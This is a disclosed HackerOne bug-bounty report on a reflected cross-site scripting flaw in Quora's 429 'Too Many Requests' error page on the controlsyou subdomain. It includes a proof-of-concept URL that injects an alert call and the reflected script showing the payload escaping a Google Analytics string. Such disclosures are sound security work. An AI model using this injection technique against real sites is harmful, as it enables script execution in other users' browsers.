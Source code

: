 # [controlsyou.quora.com] 429 Too Many Requests Error-Page XSS

## Report Details
- **Report ID**: 189768
- **URL**: https://hackerone.com/reports/189768
- **State**: Closed
- **Severity**: medium
- **Submitted**: 2016-12-09T09:03:47.961Z
- **Disclosed**: 2017-03-31T19:35:43.972Z

## Reporter
- **Username**: bobrov
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: quora

## Vulnerability Information
**Summary:**
XSS on the error page when the user makes too many requests.

### Steps To Reproduce

1. Make a lot of requests to get the error 429
2. Open PoC in FireFox

```
https://controlsyou.quora.com/'-alert(document.domain)-'
``` 

**HTTP Response**
```
<script type="text/javascript">
...
ga('set', 'dimension1', 'board-'-alert(document.domain)-'');
ga('set', 'dimension2', 'False');
ga('set', 'dimension3', 'False');});});</script>
```


### Optional: Your Environment (Browser version, Device, app version, os version etc)
Tested on FireFox 50.0.2

## Attachments
No attachments

